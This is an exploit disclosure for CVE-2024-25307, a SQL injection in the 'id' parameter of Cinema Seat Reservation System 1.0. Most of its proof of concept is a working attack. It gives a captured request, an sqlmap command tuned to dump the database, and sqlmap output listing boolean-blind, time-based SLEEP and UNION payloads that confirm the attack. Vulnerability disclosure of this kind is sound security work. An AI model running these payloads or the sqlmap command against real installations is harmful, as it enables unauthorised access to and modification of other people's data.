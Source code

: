 # CVE-2024-25307 - Cinema Seat Reservation System - SQL Injection
+ **Exploit Title:** Cinema Seat Reservation System - SQL Injection
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/cinema-seat-reservation-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/1d68ab6b-6fd7-4c5f-a125-268d8ecbce07
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25307

## Description:
Cinema Seat Reservation System 1.0 allows SQL Injection via the 'id' parameter at "/Cinema-Reservation/booking.php?id=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "/Cinema-Reservation/"
+ Click on any movie poster
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Cinema-Reservation/booking.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9842=9842

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3036 FROM (SELECT(SLEEP(5)))fUdC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-1021 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171767871,0x43464842634f6a684a635167706d5868724f6a6c4f7972536257434354776d4b6c64484544534e48,0x7178627071),NULL,NULL-- -
---
[07:46:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:46:45] [INFO] fetching current database
current database: 'cinema_db'
```
+ current database: `cinema_db`

![Ekran görüntüsü 2024-02-01 160105](https://github.com/tubakvgc/CVEs/assets/74067343/461638fb-1a49-4473-a412-047aa427d25c)
